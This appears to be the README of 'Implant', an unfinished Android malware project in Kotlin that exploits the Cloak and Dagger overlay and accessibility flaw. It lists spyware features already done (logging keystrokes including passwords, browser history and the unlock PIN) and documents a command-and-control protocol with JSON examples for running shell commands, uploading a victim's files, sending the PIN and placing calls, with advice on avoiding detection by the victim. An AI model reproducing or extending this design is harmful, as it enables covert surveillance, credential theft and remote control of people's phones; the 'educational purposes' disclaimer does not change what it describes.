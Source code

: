 Cloak and Dagger Implementation
===============================
Implant is an (unfinished) implementation of the Android Clock and Dagger vulnerability in Kotlin.
To learn more about Cloak and Dagger see, http://cloak-and-dagger.org.

If the overlays do not display correctly on your phone, adjust the overlay dimensions in the
relevant Stage subclasses.
Currently only the AccessibilityStage of the attack automatically determines the position of the
UI elements being clickjacked.

You can contact me at cooper@cooperthecoder.com.
Pull requests, questions, suggestions and criticism are welcomed.


Requirements
============
+ Android Studio with Kotlin support (3.0+ or with Kotlin plugin)

Installing Implant
==================
To install Implant, import this code into a version of Android Studio with Kotlin support.
Since Android only grants the SYSTEM_ALERT_WINDOW permission to apps from the Play Store, you'll
have to manually enable the permission and press the back button to begin the attack, or publish
it to the Play Store.
Implant uses coloured translucent overlays to show exactly what is going on in the background.
Simply click the holes in the overlay to progress the attack.

Supported Devices
-----------------
+ Nexus 5X Nougat
+ Nexus 5X Marshmallow
+ Nexus 4 Lollipop

Accessibility Service Capabilities
==================================
Done
----
+ Log non-password keystrokes
+ Log browser history
+ Log selected text
+ Log applications used
+ Log Security Pin
+ Log password keystrokes

To Do
-----
+ Install additional payload from an APK

Overlay Capabilities
====================
Done
----
+ Determine the position of our AccessibilityService in the Settings Menu dynamically
+ Clickjacking -> a11y working on some screen sizes

To Do
-----
+ Determine the location of all clickjacking targets dynamically

Command and Control
===================
Implant uses push notifications in order to receive commands from the C&C.
This will enable the operator to interact with devices under her control in a chat-like
manner.
To avoid finishing the victim's mobile data allowance, no large payloads are transmitted
on mobile connections.
Instead, payloads are sent via push as URLs and added to a queue locally to be
downloaded when the victim connects to an unmetered Wi-Fi network.
Large uploads are handled similarly.
When an upload command is sent via push, the data will be encrypted using the server's
public key and queued for upload when the victim connects to Wi-Fi.

Supported Operations
--------------------
+ Queue files for upload when device is idle and connected to Wi-Fi
+ Execute shell commands from the C&C

Push Service
------------
The CommandService is started whenever the device is idle and connected to an
unmetered network.
It opens a MQTT connection to the C&C and listens for commands.
On startup, the client signals it is ready to receive commands by sending its unique
Android device ID.
When the user disconnects from the unmetered network, this service should stop
immediately and close the socket.
All messages between client and server represent remote function calls.

#####Message Format
Key | Type | Description
----|------|----------------
command | String | The function to be called on the remote end.
arguments | Map(String -> String) | Arguments to be passed to the function.
nonce | String | A unique ID to allow for tracking of command execution. The nonce does not have to be random but must be unique

#####Execute
The `execute` command allows the server to execute a shell command on the device.
```
{
    "command": "execute",
    "nonce": "1234-5467-4353-6468",
    "arguments": {
        "shell_command": "whoami"
    }
}
```

#####Upload
The `upload` command allows the server to queue a file on the device for uploading when the device
is idle and connected to an unmetered network.
```
{
    "command": "upload",
    "nonce": "1234-5467-4353-1359",
    "arguments": {
        "filename": "/sdcard/Documents/CompanySecrets.docx"
    }
}
```

#####Pin
The `pin` command sends the device's unlock PIN to the server.
```
{
    "command": "pin",
    "nonce": "1234-5467-4353-1234",
    "arguments": {}
}
```

#####Call
The `call` command instructs the phone to call a particular number.
Use this with care, you may tip off the victim.
```
{
    "command": "call",
    "nonce": "1234-3948-1230-1241",
    "arguments": {
        "phone_number": "1954321234"
    }
}
```


#####Reply
Sometimes, the output of a command is useful.
The `reply` command should be used to send a reply to the server.
Since there is no guarantee that commands will execute in order, the nonce should be used to
track which command the response is for.
```
{
    "command": "reply"
    "nonce": "1234-5467-4312-0987"
    "arguments": {
        "command": "1234-5467-4353-1359",
        "output": "/sdcard/Documents/CompanySecrets.docx queued for upload.",
        "error": ""
    }
}
```

All messages are encrypted with the server's public key before being sent to the C&C via a TLS 
connection.


Disclaimer
==========
I am not responsible for anything illegal, immoral or stupid you do with this code.
Please use it for educational purposes only.